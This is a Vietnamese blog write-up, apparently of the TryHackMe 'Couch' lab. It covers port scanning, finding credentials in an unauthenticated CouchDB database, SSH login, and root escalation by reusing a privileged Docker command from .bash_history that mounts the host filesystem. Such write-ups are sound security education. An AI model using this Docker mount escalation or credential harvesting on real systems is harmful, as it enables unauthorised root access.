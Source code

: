 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Couch"
date: "2022-03-28"
tags: [
    "tryhackme",
    "web",
    "linux",
	"couchdb",
	"docker",
    "ssh",
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![intro](/assets/img/2022-03-28-THM-Couch.png)

Xin chào, lại là tôi đây. Hôm nay tôi sẽ giải CTF [TryHackMe | Couch](https://tryhackme.com/room/couch)
## Reconnaissance

Việc đầu tiên cần làm là quét các cổng đang mở trên máy chủ mục tiêu

```python
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 349d390934304b3da71edfeba3b0e5aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDMXnGZUnLWqLZb8VQiVH0z85lV+G4KY5l5kKf1fS7YgSnfZ+k3CRjAZPuGceg5RQEUbOMCm+0u4SDyIEbwwAXGv0ORK4/VEIyJlZmtlqeyASwR8ML4yjdGqinqOUZ3jN/ZIg4veJ02nr86GZP+Nto0TZt7beaIxykMEZHTdo0CctdKLIet7PpvwG4F5Tn9MBoys9pUjfpcnwbf91Tv6i56Gipo07jKgb5vP8Nl1TXPjWB93WNW2vWEQ1J4tiyZlBeLOaNaEbxvNQFnKxjVYiiLCbcofwSdrwZ7/+sIy5BdiNW+k81rBN3OqaQNZ8urFaiXXf/ukRr/hhjY5a6m0MHn
|   256 a42eef3a845d211bb9d42613a52ddf19 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNTR07g3p8MfnQVnv8uqj8GGDH6VoSRzwRFflMbEf3WspsYyVipg6vtNQMaq5uNGUXF8ubpsnHeJA+T3RilTLXc=
|   256 e16d4dfdc8008e86c2132dc7ad85139c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKLUyz2Tpwc5qPuFxV+HnGBeqLC6NWrmpmGmE0hk7Hlj
5984/tcp open  http    syn-ack CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: 2AB2AAE806E8393B70970B2EAACE82E0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Với port 5984 tôi có web console của CouchDB. Đọc qua document của db này thì tôi tìm được path của web admin là */_utils* 

Để list ra toàn bộ db trên web browser tôi dùng path */_all_dbs*

Dạo qua các db này thì tôi tìm thấy creds bên trong db *secret*

Thử login ssh 

```python
┌──(neo㉿kali)-[~]
└─$ ssh atena@10.10.60.64    
The authenticity of host '10.10.60.64 (10.10.60.64)' can't be established.
ED25519 key fingerprint is SHA256:QXIT4W/vOthS71YtOAr7s67oloxpMmr0GLRVL9iVFJM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.60.64' (ED25519) to the list of known hosts.
atena@10.10.60.64's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-193-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Fri Dec 18 15:25:27 2020 from 192.168.85.1
atena@ubuntu:~$ id
uid=1000(atena) gid=1000(atena) groups=1000(atena),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
atena@ubuntu:~$ ls
user.txt
atena@ubuntu:~$ 
```

## Privilege escalation

Thử `sudo -l` hay `find` đều không có kết quả. Nhưng khi `ls -la` để xem những file ẩn ở thư mục user *atena*, tôi nhận ra file *.bash_history* có size khá lớn. 

```python
atena@ubuntu:~$ cat .bash_history 
sudo -s
cd /etc/apt/
rm sources.
rm sources.list
wget https://gist.githubusercontent.com/rohitrawat/60a04e6ebe4a9ec1203eac3a11d4afc1/raw/fcdfde2ab57e455ba9b37077abf85a81c504a4a9/sources.list
apt-get update
apt-get dist-upgrade 
sudo apt-get install software-properties-common
sudo add-apt-repository ppa:couchdb/stable
sudo apt-get update
sudo apt-get install couchdb
sudo chown -R couchdb:couchdb /usr/bin/couchdb /etc/couchdb /usr/share/couchdb
...
...
sudo deluser USERNAME sudo
sudo deluser atena sudo
exit
sudo -s
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
uname -a
exit
```

Ở đoạn cuối này, tôi để ý thấy *root* sử dụng -s để lấy shell và thực thi docker. Tôi sẽ dùng lại câu lệnh này

```python
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpin
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(fl
/ # cat /root/root.txt
cat: can't open '/root/root.txt': No such file or directory
/ # ls /root
/ # find / -type f -name root.txt 2>/dev/null
/mnt/root/root.txt
/ # 	   
```
